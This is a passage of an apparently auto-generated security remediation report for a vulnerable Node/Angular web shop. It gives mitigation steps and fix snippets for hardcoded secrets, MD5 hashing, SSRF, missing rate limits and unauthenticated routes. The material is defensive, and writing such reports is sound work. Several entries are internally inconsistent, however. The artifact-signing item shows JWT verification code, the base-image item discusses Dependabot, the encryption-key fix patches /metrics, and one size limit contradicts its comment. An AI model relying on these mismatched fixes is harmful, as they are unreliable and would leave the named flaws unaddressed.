2. The Authorization Code callback delivers a `code` parameter in the query string (not fragment), which is exchanged server-side for tokens - tokens never appear in the URL.
3. Ensure the BFF/backend exchange endpoint strips the `code` from the redirect URL immediately after use.

**Reference:** CWE-598

---

<a id="m-038"></a>
#### M-038 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-028](#f-028) — Hardcoded Ethereum Wallet Mnemonic Exposes Wallet (`routes/checkKeys.ts:10`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/checkKeys.ts:10`

**How:** Remove the hardcoded mnemonic string from `routes/checkKeys.ts` and load it from `process.env.ETH_WALLET_MNEMONIC`. Rotate the Ethereum wallet immediately - generate a new mnemonic and transfer any assets to the new address; treat the committed mnemonic as permanently compromised. Add `ETH_WALLET_MNEMONIC` to `.env.example` with a placeholder and to `.gitignore` / secrets scanning rules to prevent future commits. Replace the timing-unsafe direct string comparison (`=== privateKey`) with a constant-time comparison to prevent key oracle attacks: `crypto.timingSafeEqual(Buffer.from(req.body.privateKey), Buffer.from(privateKey))`.

1. Remove the hardcoded mnemonic string from `routes/checkKeys.ts` and load it from `process.env.ETH_WALLET_MNEMONIC`.
2. Rotate the Ethereum wallet immediately - generate a new mnemonic and transfer any assets to the new address; treat the committed mnemonic as permanently compromised.
3. Add `ETH_WALLET_MNEMONIC` to `.env.example` with a placeholder and to `.gitignore` / secrets scanning rules to prevent future commits.
4. Replace the timing-unsafe direct string comparison (`=== privateKey`) with a constant-time comparison to prevent key oracle attacks: `crypto.timingSafeEqual(Buffer.from(req.body.privateKey), Buffer.from(privateKey))`.

```typescript
// routes/checkKeys.ts — AFTER fix
const mnemonic = process.env.ETH_WALLET_MNEMONIC
  ?? (() => { throw new Error('ETH_WALLET_MNEMONIC not set') })()
const mnemonicWallet = HDNodeWallet.fromPhrase(mnemonic)
const privateKey = mnemonicWallet.privateKey
// ... constant-time comparison:
import crypto from 'node:crypto'
const isMatch = req.body.privateKey?.length === privateKey.length &&
  crypto.timingSafeEqual(Buffer.from(req.body.privateKey), Buffer.from(privateKey))
```

**Reference:** CWE-321

---

<a id="m-039"></a>
#### M-039 — Stop storing sensitive data in cleartext

**Addresses:**

- 🔴 [F-030](#f-030) — Hardcoded Deployment Email in Public Workflow (`ci.yml:342`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `ci.yml:342`

**How:** Create a new GitHub repository secret `HEROKU_EMAIL` containing `bjoern.kimminich@owasp.org` and replace the hardcoded value in `ci.yml:342` with `${{ secrets.HEROKU_EMAIL }}`. This prevents future `git history additions from exposing the identity and establishes a consistent pattern where all deployment identities are secret-managed`. Review GitHub Actions run logs for the e2e job to confirm that `SOLUTIONS_WEBHOOK` URL does not appear in test output; if it does, update Cypress configuration to suppress webhook URL logging or use a masked environment variable wrapper.

1. Create a new GitHub repository secret `HEROKU_EMAIL` containing `bjoern.kimminich@owasp.org` and replace the hardcoded value in `ci.yml:342` with `${{ secrets.HEROKU_EMAIL }}`. This prevents future `git history additions from exposing the identity and establishes a consistent pattern where all deployment identities are secret-managed`.
2. Review GitHub Actions run logs for the e2e job to confirm that `SOLUTIONS_WEBHOOK` URL does not appear in test output; if it does, update Cypress configuration to suppress webhook URL logging or use a masked environment variable wrapper.

```javascript
# .github/workflows/ci.yml — heroku deploy step
- uses: akhileshns/heroku-deploy@581dd286c962b6972d427fcf8980f60755c15520 #v3.13.15
  with:
    heroku_api_key: ${{ secrets.HEROKU_API_KEY }}
    heroku_app_name: ${{ env.HEROKU_APP }}
    heroku_email: ${{ secrets.HEROKU_EMAIL }}    # was: hardcoded address
```

**Reference:** CWE-312

---

<a id="m-040"></a>
#### M-040 — Stop exposing internal information to clients

**Addresses:**

- 🟠 [F-035](#f-035) — Unauthenticated Public Exposure of Encryption Key Directory (`server.ts:277`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:277`

**How:** Add `security.isAuthorized()` and `security.isAdmin()` middleware before the `/encryptionkeys` route registration in `server.ts:277`. Remove the hardcoded RSA private key from `lib/insecurity.ts:23` and load it from an environment variable or a secrets manager (e.g. `process.env.JWT_PRIVATE_KEY` or a mounted Kubernetes secret). Move `jwt.pub` out of the publicly accessible filesystem or restrict its access to internal services only. Rotate the RSA key pair after remediation since the private key is exposed in the repository.

1. Add `security.isAuthorized()` and `security.isAdmin()` middleware before the `/encryptionkeys` route registration in `server.ts:277`.
2. Remove the hardcoded RSA private key from `lib/insecurity.ts:23` and load it from an environment variable or a secrets manager (e.g. `process.env.JWT_PRIVATE_KEY` or a mounted Kubernetes secret).
3. Move `jwt.pub` out of the publicly accessible filesystem or restrict its access to internal services only.
4. Rotate the RSA key pair after remediation since the private key is exposed in the repository.

```javascript
// server.ts — add auth before encryptionkeys mount
app.use('/encryptionkeys', security.isAuthorized(), security.isAdmin(),
  serveIndexMiddleware, serveIndex('encryptionkeys', { icons: true, view: 'details' }))
app.use('/encryptionkeys/:file', security.isAuthorized(), security.isAdmin(), serveKeyFiles())
```

**Reference:** CWE-200

---

<a id="m-041"></a>
#### M-041 — Replace MD5 password hashing with bcrypt or Argon2

**Addresses:**

- 🟠 [F-036](#f-036) — Weak MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `models/user.ts:77`

**How:** Install bcrypt: `npm install bcrypt @types/bcrypt`. Replace `crypto.createHash('md5').update(data).digest('hex')` with `bcrypt.hashSync(data, 12)` for hashing and add a verify function using `bcrypt.compareSync`. Update the login query in `routes/login.ts` to use `bcrypt.compare()` rather than comparing hash values in the SQL WHERE clause - this is also required to fix data-layer-001. Migrate existing password hashes: on next login, re-hash the password with bcrypt and update the database record. Ensure the User model setter in `models/user.ts:77` calls the new bcrypt hash function.

1. Install bcrypt: `npm install bcrypt @types/bcrypt`.
2. Replace `crypto.createHash('md5').update(data).digest('hex')` with `bcrypt.hashSync(data, 12)` for hashing and add a verify function using `bcrypt.compareSync`.
3. Update the login query in `routes/login.ts` to use `bcrypt.compare()` rather than comparing hash values in the SQL WHERE clause - this is also required to fix data-layer-001.
4. Migrate existing password hashes: on next login, re-hash the password with bcrypt and update the database record.
5. Ensure the User model setter in `models/user.ts:77` calls the new bcrypt hash function.

```javascript
// lib/insecurity.ts
import bcrypt from 'bcrypt'
const BCRYPT_ROUNDS = 12
export const hash = (data: string) => bcrypt.hashSync(data, BCRYPT_ROUNDS)
export const verifyPassword = (clearText: string, storedHash: string) =>
  bcrypt.compareSync(clearText, storedHash)
```

**Reference:** CWE-256

---

<a id="m-042"></a>
#### M-042 — Return generic error messages to clients

**Addresses:**

- 🟠 [F-037](#f-037) — Verbose Error Handler Exposing Stack Traces (`server.ts:676`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:676`

**How:** Remove the `errorhandler` package from production code paths. Add a custom Express error middleware as the last `app.use()` that logs the full error internally (via `logger.error()`) and returns only `{ error: 'Internal server error' }` with HTTP 500 to the client. Set `NODE_ENV=production` in Docker/container env to suppress any development-mode verbose output from other middleware.

1. Remove the `errorhandler` package from production code paths.
2. Add a custom Express error middleware as the last `app.use()` that logs the full error internally (via `logger.error()`) and returns only `{ error: 'Internal server error' }` with HTTP 500 to the client.
3. Set `NODE_ENV=production` in Docker/container env to suppress any development-mode verbose output from other middleware.

```javascript
// server.ts — replace errorhandler with:
app.use((err: Error, req: Request, res: Response, _next: NextFunction) => {
  logger.error({ msg: err.message, stack: err.stack, url: req.url })
  res.status(500).json({ error: 'Internal server error' })
})
```

**Reference:** CWE-209

---

<a id="m-043"></a>
#### M-043 — Gate /encryptionkeys/ and /ftp/ routes behind admin-only isAuthorized middleware

**Addresses:**

- 🟠 [F-038](#f-038) — Unauthenticated FTP and Encryption Key Directory Listing (`server.ts:269`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:269`

**How:** Add `security.isAuthorized()` before `serveIndex` and file-serving handlers for `/ftp/` and `/encryptionkeys/` in `server.ts`. Restrict `/encryptionkeys/` to admin role using a role-check middleware - no end-user should need the signing public key at runtime. Move the JWT public key out of a web-served directory and load it from `process.env.JWT_PUBLIC_KEY` at startup.

1. Add `security.isAuthorized()` before `serveIndex` and file-serving handlers for `/ftp/` and `/encryptionkeys/` in `server.ts`.
2. Restrict `/encryptionkeys/` to admin role using a role-check middleware - no end-user should need the signing public key at runtime.
3. Move the JWT public key out of a web-served directory and load it from `process.env.JWT_PUBLIC_KEY` at startup.

```javascript
// server.ts — before serving FTP and encryption keys
app.use('/ftp', security.isAuthorized(), serveIndexMiddleware,
  serveIndex('ftp', { icons: true }))
app.use('/ftp(?!/quarantine)/:file', security.isAuthorized(), servePublicFiles())
app.use('/encryptionkeys', security.isAuthorized(), serveIndexMiddleware,
  serveIndex('encryptionkeys', { icons: true, view: 'details' }))
```

**Reference:** CWE-548

---

<a id="m-044"></a>
#### M-044 — Validate and allowlist outbound request targets

**Addresses:**

- 🟠 [F-039](#f-039) — Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/profileImageUrlUpload.ts:24`

**How:** Parse `req.body.imageUrl` with `new URL(url)` and reject any scheme other than `https:` and any hostname not on an explicit allowlist of known CDN/image hosts. Block loopback, link-local (169.254.x.x), and private IP ranges (10.x, 172.16-31.x, 192.168.x.x) using a DNS-rebinding-safe check after resolution. Alternatively, accept only `data:image/...` base64 URLs for profile images and avoid outbound HTTP fetches entirely.

1. Parse `req.body.imageUrl` with `new URL(url)` and reject any scheme other than `https:` and any hostname not on an explicit allowlist of known CDN/image hosts.
2. Block loopback, link-local (169.254.x.x), and private IP ranges (10.x, 172.16-31.x, 192.168.x.x) using a DNS-rebinding-safe check after resolution.
3. Alternatively, accept only `data:image/...` base64 URLs for profile images and avoid outbound HTTP fetches entirely.

```javascript
// routes/profileImageUrlUpload.ts — before fetch
const parsed = new URL(req.body.imageUrl)
if (!['https:'].includes(parsed.protocol)) throw new Error('Only HTTPS URLs allowed')
const ALLOWED_HOSTS = new Set(['cdn.example.com', 'i.imgur.com'])
if (!ALLOWED_HOSTS.has(parsed.hostname)) throw new Error('Host not allowlisted')
```

**Reference:** CWE-918

---

<a id="m-045"></a>
#### M-045 — Stop exposing internal information to clients

**Addresses:**

- 🟠 [F-040](#f-040) — Unauthenticated Exposure of Encryption Keys and JWT Material (`server.ts:278`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:277`

**How:** Add an authentication and role check before `serveIndex` and `serveKeyFiles()` at `server.ts:277`-278, permitting access only to admin-role JWT holders. Remove the `serveIndex('encryptionkeys', ...)` middleware entirely - directory listing of cryptographic material serves no legitimate user need. Relocate `premium.key` outside the web-accessible file tree (e.g., into a secrets manager or environment variable) and load it at startup rather than serving it over HTTP. Rotate `premium.key` after any period of unauthenticated exposure.

1. Add an authentication and role check before `serveIndex` and `serveKeyFiles()` at `server.ts:277`-278, permitting access only to admin-role JWT holders.
2. Remove the `serveIndex('encryptionkeys', ...)` middleware entirely - directory listing of cryptographic material serves no legitimate user need.
3. Relocate `premium.key` outside the web-accessible file tree (e.g., into a secrets manager or environment variable) and load it at startup rather than serving it over HTTP.
4. Rotate `premium.key` after any period of unauthenticated exposure.

```typescript
// Remove directory-listing middleware; require auth on management endpoints.
// app.use('/ftp', serveIndex(...))   // delete
app.use('/metrics', requireRole('admin'), promBundle())
```

**Verification:** Unauthenticated `GET /metrics` returns 401; `GET /ftp/` returns 404.

**Reference:** CWE-200

---

<a id="m-046"></a>
#### M-046 — Require admin-role JWT authentication on GET /support/logs and GET /support/logs/:file

**Addresses:**

- 🟠 [F-041](#f-041) — Unauthenticated Log File Disclosure (`routes/logfileServer.ts:14`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:281`

**How:** Add `security.isAuthorized()` and a role-check middleware (e.g. `security.denyAll()` except for admin role) before `serveIndexMiddleware` and `serveLogFiles()` at `server.ts:281`-283. Apply `sanitize-filename` to `params.file` in `serveLogFiles` before constructing the path, removing null bytes and other bypass sequences. Review whether application logs contain sensitive data (tokens, passwords, PII) and configure structured logging to redact such fields before writing to disk.

1. Add `security.isAuthorized()` and a role-check middleware (e.g. `security.denyAll()` except for admin role) before `serveIndexMiddleware` and `serveLogFiles()` at `server.ts:281`-283.
2. Apply `sanitize-filename` to `params.file` in `serveLogFiles` before constructing the path, removing null bytes and other bypass sequences.
3. Review whether application logs contain sensitive data (tokens, passwords, PII) and configure structured logging to redact such fields before writing to disk.

**Reference:** CWE-538

---

<a id="m-047"></a>
#### M-047 — Scope challenge-solved notification broadcasts to the owning user's authenticated socket

**Addresses:**

- 🟠 [F-042](#f-042) — Unauthenticated CTF Flag Broadcast on WebSocket (`registerWebsocketEvents.ts:30`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:30`

**How:** After adding socket authentication (realtime-channel-001), store each notification with the `userId` of the solver and only emit `challenge solved` events to sockets associated with that user via `io.to(socketId).emit(...)` rather than the global broadcast `io.emit()`. In `registerWebsocketEvents.ts` line 30-31, filter the notifications replay to only entries whose `userId` matches `socket.data.user.id` to prevent cross-user flag leakage on connection. Alternatively, if CTF flags should be globally visible (e.g., shared challenge board), remove the `flag` field from broadcast payloads and serve it only through an authenticated REST endpoint.

1. After adding socket authentication (realtime-channel-001), store each notification with the `userId` of the solver and only emit `challenge solved` events to sockets associated with that user via `io.to(socketId).emit(...)` rather than the global broadcast `io.emit()`.
2. In `registerWebsocketEvents.ts` line 30-31, filter the notifications replay to only entries whose `userId` matches `socket.data.user.id` to prevent cross-user flag leakage on connection.
3. Alternatively, if CTF flags should be globally visible (e.g., shared challenge board), remove the `flag` field from broadcast payloads and serve it only through an authenticated REST endpoint.

**Reference:** CWE-668

---

<a id="m-048"></a>
#### M-048 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-043](#f-043) — No Rate Limiting on Login Endpoint (`server.ts:594`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:594`

**How:** Add `app.use('/rest/user/login', rateLimit({ windowMs: 15 * 60 * 1000, max: 10, keyGenerator: (req) => req.socket.remoteAddress }))` before `app.post('/rest/user/login', login())` in `server.ts`. Consider account-level lockout after N consecutive failures using a counter stored in Redis or memory-cache. Implement CAPTCHA for repeated failures from the same IP.

1. Add `app.use('/rest/user/login', rateLimit({ windowMs: 15 * 60 * 1000, max: 10, keyGenerator: (req) => req.socket.remoteAddress }))` before `app.post('/rest/user/login', login())` in `server.ts`.
2. Consider account-level lockout after N consecutive failures using a counter stored in Redis or memory-cache.
3. Implement CAPTCHA for repeated failures from the same IP.

```javascript
import { rateLimit } from 'express-rate-limit'

app.use('/rest/user/login', rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutes
  max: 10,
  keyGenerator: (req) => req.socket.remoteAddress ?? ''
}))
app.post('/rest/user/login', login())
```

**Reference:** CWE-307

---

<a id="m-049"></a>
#### M-049 — Add express-rate-limit middleware to POST /b2b/v2/orders

**Addresses:**

- 🟠 [F-044](#f-044) — No Rate Limiting on B2B Orders Endpoint Enables Event-Loop (`server.ts:645`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:645`

**How:** Import and configure `express-rate-limit` for the B2B endpoint with a conservative window and max: e.g. 10 requests per minute per IP. Register the rate limiter middleware before the `b2bOrder()` handler at `server.ts:645`. Consider adding a per-JWT-subject rate limit (using `keyGenerator: (req) => req.auth?.sub ?? req.ip`) to prevent distributed DoS from a single forged identity across multiple IPs.

1. Import and configure `express-rate-limit` for the B2B endpoint with a conservative window and max: e.g. 10 requests per minute per IP.
2. Register the rate limiter middleware before the `b2bOrder()` handler at `server.ts:645`.
3. Consider adding a per-JWT-subject rate limit (using `keyGenerator: (req) => req.auth?.sub ?? req.ip`) to prevent distributed DoS from a single forged identity across multiple IPs.

```typescript
// server.ts — around line 645
const b2bOrderLimiter = rateLimit({
  windowMs: 60 * 1000,
  max: 10,
  message: { error: 'Too many order requests, please retry later' },
  keyGenerator: (req) => (req as any).auth?.sub ?? req.ip
})
app.post('/b2b/v2/orders', b2bOrderLimiter, b2bOrder())
```

**Reference:** CWE-400

---

<a id="m-050"></a>
#### M-050 — Add rate limiting to /rest/user/login with IP-only key and account lockout

**Addresses:**

- 🟠 [F-045](#f-045) — Unbounded Login Brute Force No Rate Limit (`server.ts:594`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:594`

**How:** Add `rateLimit({ windowMs: 15 * 60 * 1000, max: 20, keyGenerator: (req) => req.ip })` middleware before `login()` at `server.ts:594`. Fix the reset-password rate limiter key to use `req.ip` only - remove the `headers['X-Forwarded-For']` lookup, or if a trusted proxy is required, validate the header against a known proxy allowlist. Implement account lockout (e.g. increment a `loginAttempts` counter in the Users table; block after 10 failures for 15 minutes).

1. Add `rateLimit({ windowMs: 15 * 60 * 1000, max: 20, keyGenerator: (req) => req.ip })` middleware before `login()` at `server.ts:594`.
2. Fix the reset-password rate limiter key to use `req.ip` only - remove the `headers['X-Forwarded-For']` lookup, or if a trusted proxy is required, validate the header against a known proxy allowlist.
3. Implement account lockout (e.g. increment a `loginAttempts` counter in the Users table; block after 10 failures for 15 minutes).

```javascript
// server.ts — before login route
const loginLimiter = rateLimit({
  windowMs: 15 * 60 * 1000,
  max: 20,
  keyGenerator: (req) => req.ip  // never trust X-Forwarded-For unless behind a known proxy
})
app.post('/rest/user/login', loginLimiter, login())
```

**Reference:** CWE-400

---

<a id="m-051"></a>
#### M-051 — Bound parser and decompression resource limits

**Addresses:**

- 🟠 [F-046](#f-046) — XML/YAML Bomb DoS (`routes/fileUpload.ts:83`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `fileUpload.ts:83`

**How:** Set `noent: false` and `dtdload: false` in the libxmljs2 `parseXml` options (`fileUpload.ts:83`) - entity expansion cannot occur without DTD processing, eliminating billion-laughs attacks. Add `rateLimit({ windowMs: 60 * 1000, max: 5 })` middleware before `handleXmlUpload` in the `POST /file-upload` chain at `server.ts:309` to limit upload frequency per IP. Apply the same rate limit to `/profile/image/url` (`server.ts:311`) to prevent SSRF-amplified fetch floods.

1. Set `noent: false` and `dtdload: false` in the libxmljs2 `parseXml` options (`fileUpload.ts:83`) - entity expansion cannot occur without DTD processing, eliminating billion-laughs attacks.
2. Add `rateLimit({ windowMs: 60 * 1000, max: 5 })` middleware before `handleXmlUpload` in the `POST /file-upload` chain at `server.ts:309` to limit upload frequency per IP.
3. Apply the same rate limit to `/profile/image/url` (`server.ts:311`) to prevent SSRF-amplified fetch floods.

**Reference:** CWE-400

---

<a id="m-052"></a>
#### M-052 — Enforce connection rate limits and maximum concurrent WebSocket connections

**Addresses:**

- 🟠 [F-047](#f-047) — Unbounded WebSocket Connection Acceptance (`registerWebsocketEvents.ts:20`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:20`

**How:** Configure Socket\.IO `maxHttpBufferSize` option to cap incoming message size (e.g., `new Server(server, { maxHttpBufferSize: 1e4 })` for 10KB) to limit per-message memory consumption. Implement a per-IP connection rate limiter using `socket.handshake.address` in the `io.use()` middleware: track connection counts per IP in a Map or Redis and reject if over threshold (e.g., 10 connections/IP). Set a maximum message rate per socket using a token-bucket limiter on incoming events to prevent event flooding on existing connections. Consider wrapping the Socket\.IO endpoint behind the same Express rate-limiting middleware used for HTTP routes (e.g., `express-rate-limit` applied to `/socket.io/`).

1. Configure Socket\.IO `maxHttpBufferSize` option to cap incoming message size (e.g., `new Server(server, { maxHttpBufferSize: 1e4 })` for 10KB) to limit per-message memory consumption.
2. Implement a per-IP connection rate limiter using `socket.handshake.address` in the `io.use()` middleware: track connection counts per IP in a Map or Redis and reject if over threshold (e.g., 10 connections/IP).
3. Set a maximum message rate per socket using a token-bucket limiter on incoming events to prevent event flooding on existing connections.
4. Consider wrapping the Socket\.IO endpoint behind the same Express rate-limiting middleware used for HTTP routes (e.g., `express-rate-limit` applied to `/socket.io/`).

```javascript
const io = new Server(server, {
  cors: { origin: 'http://localhost:4200' },
  maxHttpBufferSize: 1e5  // 100KB max per message
})

const connCounts = new Map<string, number>()
io.use((socket: any, next: any) => {
  const ip = socket.handshake.address
  const count = (connCounts.get(ip) ?? 0) + 1
  if (count > 10) return next(new Error('Too many connections'))
  connCounts.set(ip, count)
  socket.on('disconnect', () => connCounts.set(ip, (connCounts.get(ip) ?? 1) - 1))
  next()
})
```

**Reference:** CWE-400

---

<a id="m-053"></a>
#### M-053 — Add server-side session validation endpoint called by guards before route activation

**Addresses:**

- 🔴 [F-048](#f-048) — Client-Side Route Guards Bypassable Without Server (`app.guard.ts:17`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/app.guard.ts:17`

**How:** Add a `/rest/user/whoami` or session-check API call in `LoginGuard.canActivate()` that returns 401 on invalid/expired tokens, blocking navigation on server-confirmed failure. For `AdminGuard`, verify role server-side - the guard should call a protected endpoint that validates the JWT signature and role server-side before returning 200. Remove the bare `localStorage.getItem('token')` truthiness check; replace with a reactive observable from the user service that reflects server-confirmed auth state.

1. Add a `/rest/user/whoami` or session-check API call in `LoginGuard.canActivate()` that returns 401 on invalid/expired tokens, blocking navigation on server-confirmed failure.
2. For `AdminGuard`, verify role server-side - the guard should call a protected endpoint that validates the JWT signature and role server-side before returning 200.
3. Remove the bare `localStorage.getItem('token')` truthiness check; replace with a reactive observable from the user service that reflects server-confirmed auth state.

```javascript
// app.guard.ts — server-confirmed LoginGuard
canActivate(): Observable<boolean> {
  return this.userService.whoAmI().pipe(
    map(user => !!user.id),
    catchError(() => { this.router.navigate(['/login']); return of(false); })
  );
}
```

**Reference:** CWE-290

---

<a id="m-054"></a>
#### M-054 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-049](#f-049) — JWT Role Claims Not Validated Against Database at (`lib/insecurity.ts:156`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:156`

**How:** In `isAccounting()`, after decoding the JWT, perform `UserModel.findByPk(decodedToken.data.id, { attributes: ['role'] })` and check the DB role rather than (or in addition to) the token claim. Reduce JWT expiry from 6 hours to 15-30 minutes; issue refresh tokens to maintain session without prolonged privilege persistence. Implement a token revocation list (blocklist in Redis/memory) so that role changes take effect immediately without waiting for token expiry.

1. In `isAccounting()`, after decoding the JWT, perform `UserModel.findByPk(decodedToken.data.id, { attributes: ['role'] })` and check the DB role rather than (or in addition to) the token claim.
2. Reduce JWT expiry from 6 hours to 15-30 minutes; issue refresh tokens to maintain session without prolonged privilege persistence.
3. Implement a token revocation list (blocklist in Redis/memory) so that role changes take effect immediately without waiting for token expiry.

**Reference:** CWE-269

---

<a id="m-055"></a>
#### M-055 — Migrate 2FA password confirmation to use bcrypt comparison consistent with auth-005 fix

**Addresses:**

- 🟠 [F-050](#f-050) — Two-Factor Authentication Disable (`routes/2fa.ts:158`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/2fa.ts:158`

**How:** After implementing bcrypt in auth-005, update `routes/2fa.ts` `setup()` and `disable()` to use `await bcrypt.compare(password, user.password)` instead of `user.password !== security.hash(password)`. Consider requiring the current TOTP token in addition to the password when disabling 2FA - defense in depth against credential-only attacks. Add rate limiting to the 2FA disable endpoint.

1. After implementing bcrypt in auth-005, update `routes/2fa.ts` `setup()` and `disable()` to use `await bcrypt.compare(password, user.password)` instead of `user.password !== security.hash(password)`.
2. Consider requiring the current TOTP token in addition to the password when disabling 2FA - defense in depth against credential-only attacks.
3. Add rate limiting to the 2FA disable endpoint.

```javascript
// Safe comparison after bcrypt migration
const passwordValid = await bcrypt.compare(password, user.password)
if (!passwordValid) throw new Error('Password does not match')
```

**Reference:** CWE-308

---

<a id="m-056"></a>
#### M-056 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-051](#f-051) — Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:310`

**How:** Add an explicit auth middleware (`isAuthorized()` / `passport.authenticate()` / `requireAuth`) to the route registration, or mark the route intentionally public via `app.get(...)` for read-only access only.

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Hit `/admin/...` with a non-admin JWT and confirm 403 (not 200).

---

<a id="m-057"></a>
#### M-057 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-052](#f-052) — Unauthenticated Admin Endpoints (`server.ts:604`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:604`

**How:** Prefix `GET /rest/admin/application-version` and `GET /rest/admin/application-configuration` with `security.isAuthorized(), security.isAccounting()` (or a new `isAdmin()` guard) at `server.ts:604-605`. Add `security.isAuthorized()` before the chatbot routes at `server.ts:629-630` if the chatbot is intended for authenticated users only. Add a broad catch-all: `app.use('/rest/admin', security.isAuthorized(), isAdminMiddleware)` before all admin-prefix handlers.

1. Prefix `GET /rest/admin/application-version` and `GET /rest/admin/application-configuration` with `security.isAuthorized(), security.isAccounting()` (or a new `isAdmin()` guard) at `server.ts:604-605`.
2. Add `security.isAuthorized()` before the chatbot routes at `server.ts:629-630` if the chatbot is intended for authenticated users only.
3. Add a broad catch-all: `app.use('/rest/admin', security.isAuthorized(), isAdminMiddleware)` before all admin-prefix handlers.

```javascript
// server.ts — protect admin endpoints
app.get('/rest/admin/application-version', security.isAuthorized(), isAdmin(), retrieveAppVersion())
app.get('/rest/admin/application-configuration', security.isAuthorized(), isAdmin(), retrieveAppConfiguration())
```

**Reference:** CWE-862

---

### P3 — Next Quarter

<a id="m-007"></a>
#### M-007 — Sign and verify release artifacts

**Addresses:**

- 🔴 [F-059](#f-059) — Container images published without signing or provenance (`release.yml`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/release.yml`

**How:** Add cosign signing step to release workflow; or use actions/attest-build-provenance - Unsigned container images cannot be verified for provenance - any registry intermediary could substitute them.

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Tamper one byte in a valid token's payload and confirm `jwt.verify()` throws.

---

<a id="m-008"></a>
#### M-008 — Disable untrusted package install scripts

**Addresses:**

- 🟡 [F-060](#f-060) — Untrusted npm Install/Postinstall Scripts Enabled — Dockerfile:5

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:5`

**How:** Use `npm ci --ignore-scripts` and audit required postinstalls separately - Without --ignore-scripts, any compromised dependency publisher can execute postinstall code at build time.

---

<a id="m-009"></a>
#### M-009 — Pin the container base image to an immutable digest

**Addresses:**

- 🟡 [F-061](#f-061) — Dependabot Ecosystem Coverage Incomplete (.github/dependabot.yml)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/dependabot.yml`

**How:** Add npm ecosystem entry to .`github/dependabot.yml` - npm ecosystem must be tracked for timely dependency security updates.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-011"></a>
#### M-011 — Store session tokens in HttpOnly, Secure cookies

**Addresses:**

- 🔴 [F-001](#f-001) — JWT Bearer Token Stored in localStorage (`login.component.ts:101`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `login.component.ts:101`

**How:** Remove all `localStorage.setItem('token', ...)` calls from the frontend (`login.component.ts:101`, `oauth.component.ts:51`, `two-factor-auth-enter.component.ts`, `chatbot.component.ts:100`). Have the Express backend set the JWT as an `HttpOnly; Secure; SameSite=Strict` cookie via `res.cookie('token', jwt, { httpOnly: true, secure: true, sameSite: 'strict' })` after successful authentication. Update `request.interceptor.ts` to remove the manual `Authorization: Bearer` header injection - the browser will send the HttpOnly cookie automatically. Deploy a Backend-for-Frontend (BFF) layer if the SPA must call third-party APIs, so tokens never need to be held in JavaScript-accessible storage.

1. Remove all `localStorage.setItem('token', ...)` calls from the frontend (`login.component.ts:101`, `oauth.component.ts:51`, `two-factor-auth-enter.component.ts`, `chatbot.component.ts:100`).
2. Have the Express backend set the JWT as an `HttpOnly; Secure; SameSite=Strict` cookie via `res.cookie('token', jwt, { httpOnly: true, secure: true, sameSite: 'strict' })` after successful authentication.
3. Update `request.interceptor.ts` to remove the manual `Authorization: Bearer` header injection - the browser will send the HttpOnly cookie automatically.
4. Deploy a Backend-for-Frontend (BFF) layer if the SPA must call third-party APIs, so tokens never need to be held in JavaScript-accessible storage.

```javascript
// Express backend — routes/login.ts
res.cookie('token', token, {
  httpOnly: true,
  secure: process.env.NODE_ENV === 'production',
  sameSite: 'strict',
  maxAge: 8 * 60 * 60 * 1000 // 8 hours
});
// Frontend interceptor no longer needed — remove Authorization header injection
```

**Reference:** CWE-922

---

<a id="m-012"></a>
#### M-012 — Store session tokens in HttpOnly, Secure cookies

**Addresses:**

- 🟠 [F-002](#f-002) — JWT Stored in localStorage (`request.interceptor.ts:13`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `frontend/src/app/Services/request.interceptor.ts:13`

